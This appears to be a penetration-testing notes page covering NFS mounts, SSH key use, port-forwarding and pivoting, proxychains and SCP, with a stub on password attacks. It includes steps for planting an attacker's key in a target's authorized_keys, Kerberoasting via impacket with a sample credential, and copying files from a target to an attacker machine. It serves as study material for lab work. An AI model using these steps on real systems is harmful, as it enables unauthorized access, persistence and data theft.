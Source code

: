 # Core Plus
This covers all of the random things that don't necessarily pertain to any given section but can be useful during a pentest.

## Mounting Files
Mounting directories you find

If the box is running a nfs network file share start with showmount to list what is available:
```bash
showmount -e {Target IP}
```

This should show you a directory list that's being shared.

Then you'll need to mount the file to do that:
```bash
mkdir /mnt/{name you want}
mount -t nfs {Target IP}:{Name of fileshare listed in showmount} /mnt/{name you wanted}
cd /mnt/{name you wanted}
```
## SSH keys 

### Create Keys 

- You could also run a keygen and store it on a malicious server. 

````bash
maliciousbox$ ssh-keygen -t rsa -b 4096 #Make sure you delete an existing key first. 

maliciousbox$ Leave everything blank and hit enter. It will be stored in /home/.ssh/id_rsa 

#Cat your id_rsa pub and copy everything in that file. 

targetrmachine$ ls -la #see if they have a .ssh directory. 

targetrmachine$ mkdir /var/www/.ssh #Use the home directory we found from passwd file. 

targetrmachine$ ls -la #Confirm it exists. 

targetrmachine$ echo ‘copied info from key’ > /var/www/.ssh/authorized_keys #You can find this info from running a “man” on ssh and “/key” to search for entries with key. #It may error out if you use the double quotes so use single instead. 

maliciousbox$ ssh www-data@{ip of site} 
````

### SSH Alias Login 

- Create aliases to ssh in easier without keys. 

    - `nano ~/.bashrc`

- Scroll down till you see the aliases for ll. 
- Add the following and match your IP and Password. 
    - `alias gh='sshpass -p "{PASS}" ssh -o StrictHostKeyChecking=no -X student@{IP}'` 

### Using Private SSH keys 

- To use private ssh keys, grab the file or copy the contents to a file on your local machine. You also need to chmod the file to make it usable. 

````bash
chmod 600 key 

ssh -i key {username}@{ip}  
````
## Port forwarding 
- Used for pivoting in a network if you've accessed a machine and notice another network.

### Local 

- To access ports from a local machine on your attack box you'll need to setup port forwarding: 

````bash
ssh -p {different port if needed} {username}@{ip} -L {target port}:127.0.0.1:{target port} -NT 
````
> **Example**
>
> `ssh student@10.2.0.2 -L 1111:34.233.98.14:80 -NT`
>
> - In this example you are setting up a port to your local machine with the '-L' switch, you can connect to locally on your machine at '1111'. If you were to go to firefox localhost 1111 you would be accesses the server at 34.233.98.14  
> - This work because the student machine has a connection to the target. By validating through SSH you can now access the target machine. 
> - The switches at the end prevent you from opening a terminal as you normally would in an SSH connection to ensure your port forward remains stable. 
> - '-N' disables remote commands and is good for forwarding.
> - '-T' disables pseudo terminal allocation.
>
> ![](images/local_portfwd.png)

### Stacking

- You can burrow deeper by opening another terminal and tunneling through the existing local host connection. This is referred to as *stacking*.

> **Example of stacking:**
>
> `ssh student@10.2.0.2 -L 1111:10.3.0.2:22 -NT`  
> `ssh student@localhost -p 1111 -L 2222:34.233.98.14:80 -NT`  
> `firefox localhost:2222`  
>
> - Creates an additional local port on the local host that forwards to a target machine through the previous channel created. So really I'm SSHing into a separate socket each time which is why it's separate authentication. 
> - All the ports are open on your local machine as you make this connection. Should one collapse the others will fail.
> - To stack you need to set the target port to the SSH port on the "jump box". This enable you to setup an additional SSH connection.
>
> ![](images/stacking_portfwd.png)

### Dynamic 

1. Create a port forward as before. 
    - `ssh student@10.2.0.2 -L 1111:10.3.0.2:22 -NT`
2. Use proxy chains to make your connection.
    - `ssh student@localhost -D 9050 -p 1111 -NT`
3. Use proxy chains before any command.
    - Ex: `proxychains impacket-GetUserSPNS.py ROSHAR.local/dkholin:Password1`
    - Ex: `proxychains firefox` #This means the firefox that opens on your local machine is from the target machine.

> **NOTE**
> ***
> - Proxychains really only works with TCP so ping and netstat don't work.
> - NMAP is less reliable over proxychains because it can only handle TCP based traffic that is valid and NMAP starts with an ICMP echo request so it will fail already unless you do a TCP full connect scan `nmap -sT -Pn -p <start port>-<end port>` or it will only scan 1000 random ports. 

## SCP  

- **Download a file from a remote directory** (172.16.82.106) **to a local directory** (home/attacker) 
    - `scp target@172.16.82.106:/home/target/secretstuff.txt /home/attacker`

- **Upload a file to a remote directory from a local directory**. 
- The command below is run from the directory with secretsstuff.txt, alternative you can use the whole path to the file. The target directory 
    - `scp secretstuff.txt target@172.16.82.106:/home/target`

- **Copy a file from a remote host to a separate remote host**
    - `scp -3 target1@172.16.82.106:/home/target1/secretstuff.txt target2@172.16.82.112:/home/target2` 

> **Pro Tip**
> ***
> - You can use the '-P' switch to specify which ssh port you're using.
> - This is useful if you've setup a tunnel or changed the SSH port.
> - Ex: `scp -P 1111 secretstuff.txt target@localhost:/home/target` 

## Password Attacks
- This section will expand beyond just using hashcat for cracking passwords, but methods for attacking passwords.

- Talk about wordlists, and creating wordlists from websites.